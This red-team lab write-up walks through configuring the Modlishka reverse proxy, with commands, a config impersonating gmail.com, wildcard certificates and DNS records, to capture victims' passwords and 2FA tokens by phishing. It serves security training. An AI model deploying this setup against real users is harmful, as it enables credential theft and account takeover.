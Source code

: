 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](../../.gitbook/assets/annotation-2019-06-25-214151.png)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](../../.gitbook/assets/annotation-2019-06-25-214300.png)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](../../.gitbook/assets/annotation-2019-06-25-214425.png)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](../../.gitbook/assets/annotation-2019-06-25-214749.png)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](../../.gitbook/assets/annotation-2019-06-25-214849.png)

Once the DNS TXT record is created, continue with the certificate generation:

![](../../.gitbook/assets/annotation-2019-06-25-214924.png)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](../../.gitbook/assets/annotation-2019-06-25-215107.png)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](../../.gitbook/assets/annotation-2019-06-25-215155.png)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](../../.gitbook/assets/annotation-2019-06-25-215308.png)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](../../.gitbook/assets/annotation-2019-06-25-215702.png)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}
